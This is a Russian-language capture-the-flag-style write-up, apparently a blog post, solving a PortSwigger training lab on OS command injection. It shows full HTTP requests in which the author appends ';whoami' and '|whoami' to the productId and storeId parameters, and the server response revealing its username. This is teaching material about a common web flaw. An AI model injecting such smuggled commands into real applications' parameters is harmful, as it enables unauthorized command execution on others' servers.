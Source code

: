 ```yaml
---
title: "OS command injection, simple case"
date: 2025-06-27
tags: [injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/os-command-injection-apprentice/os-command-injection/lab-simple"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **OS command injection** в средстве проверки запасов продуктов. Приложение выполняет команду оболочки, содержащую предоставленные пользователем идентификаторы продуктов и магазинов, и возвращает необработанные выходные данные команды в своем ответе. Для решения лабораторной работы нужно выполнить команду `whoami`, чтобы определить имя текущего пользователя.

```
https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net
```

## Solution

Я вижу страницу с товарами. Попробую открыть страницу с одним из них:

![IMG](/assets/images/IMG_os_command_injection/IMG_OS_command_injection_simple_case/1.png){: height="200" .align-center}

Вижу, что в `URL` через `GET`-запрос с параметром `productId` получается страница товара. Попробую передать команду через него:

```
https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net/product?productId=1&whoami — никаких изменений
https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net/product?productId=1;whoami — ошибка
https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net/product?productId=1|whoami — ошибка
```

Так, нужно поискать другие варианты. Внизу есть кнопка `Check stock`. Она тоже отправляет запрос, попробую через нее:

![IMG](/assets/images/IMG_os_command_injection/IMG_OS_command_injection_simple_case/2.png){: height="200" .align-center}

Происходит это с помощью такого запроса:

```http
POST /product/stock HTTP/2
Host: 0a5b00a603434fb1819a20f7006900d6.web-security-academy.net
Cookie: session=LIlt9TToGmKZCdczt0P9x8a1VqWoAOb2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net/product?productId=1&whoami
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=1&storeId=1
```

Заменю значение аргумента `storeId` на `1;whoami`:

```http
POST /product/stock HTTP/2
Host: 0a5b00a603434fb1819a20f7006900d6.web-security-academy.net
Cookie: session=LIlt9TToGmKZCdczt0P9x8a1VqWoAOb2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net/product?productId=1&whoami
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=1&storeId=1;whoami
```

Получил следующий ответ:

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 16

62
peter-nYdkXe
```

`peter-nYdkXe` — это имя пользователя, а значит лаба решена.
